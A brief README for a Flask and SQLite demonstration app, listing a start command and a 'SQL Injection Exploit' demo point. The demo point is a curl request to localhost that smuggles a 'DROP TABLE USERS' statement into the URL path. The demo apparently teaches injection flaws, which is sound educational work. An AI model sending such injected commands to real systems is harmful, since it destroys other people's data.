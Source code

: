 # flask_demo
Flask w\ SQL Light Demonstration

To start website:
```sh
python3 start.py
```

## Demo points
Docker run command
```sh
```

SQL Injection Exploit
```sh
curl -X PUT "http://localhost:5050/users/6;DROP%20TABLE%20USERS;--?firstName=test"
```
More info about exploit can be found <https://www.pythonforengineers.com/xkcd-style-sql-injection-hack-in-python/>
